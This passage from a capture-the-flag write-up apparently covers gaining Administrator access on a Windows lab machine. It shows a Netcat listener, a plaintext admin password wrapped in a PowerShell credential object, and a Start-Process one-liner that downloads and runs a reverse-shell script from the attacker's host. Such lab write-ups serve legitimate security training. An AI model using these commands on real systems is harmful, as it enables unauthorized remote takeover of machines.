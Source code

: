 I then attempted the `runas` command on the target machine, but it didn't prompt me for the password, so after some research, the method I found was to create a credential object and run a command using it. So I decided to create a powershell script containing a reverse shell payload and run it using the credential object.

I generated my payload using [revshells](https://www.revshells.com/)

![crafty_17.png](/assets/posts/crafty/crafty_17.png)

I saved this payload on my attack host in a file named `reverse_shell.ps1`. I saved this file in the same directory as where my web server was running so I could request it from the target machine.

Before we transfer the payload and execute it, start a Netcat listener.

```sh
nc -lvnp 9998
```

I then used the following commands to create the credential object and run the script using the credential object. This will make it so that the reverse shell I just created is executed on the victim machine with Administrative privileges.

```powershell
$SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force  
  
$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)  
  
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.86:8000/reverse_shell.ps1')" -Credential $cred
```

As you can see, we've obtained shell access with administrator privileges. We can then navigate to the Administrator's Desktop and get the root flag.
